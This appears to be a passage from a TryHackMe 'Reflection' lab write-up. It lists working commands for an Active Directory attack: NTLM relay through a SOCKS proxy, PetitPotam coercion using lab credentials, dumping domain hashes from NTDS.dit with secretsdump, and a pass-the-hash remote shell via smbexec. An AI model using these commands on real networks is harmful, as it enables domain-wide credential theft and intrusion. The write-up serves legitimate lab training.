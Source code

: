 

## Dumping credentials from the Domain Controller (NTDS.dit)

To extract domain credentials from a DC, create a SOCKS proxy for relayed sessions and use `impacket-secretsdump` through the proxy to leverage VSS:

```
 impacket-ntlmrelayx -t smb://TARGET_IP -smb2support -socks

# then coerce authentication as before
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus \
  -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA

# use proxychains with port 1080 (socks4)
 proxychains4 -q impacket-secretsdump TARGET_IP -no-pass -just-dc -use-vss
```

The output can include NTLM hashes for domain accounts — use these for lab questions requiring the SVC account hash or other domain credentials.



## Remote access with `impacket-smbexec`

Open a remote elevated shell using an extracted hash (example format):

```
 python3 /usr/share/doc/python3-impacket/examples/smbexec.py \
  -hashes XXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXXX \
  -u svc TARGET_IP
```

![NTLM_Relay](TryHackMe_Reflection_Domain_cred.jpg)
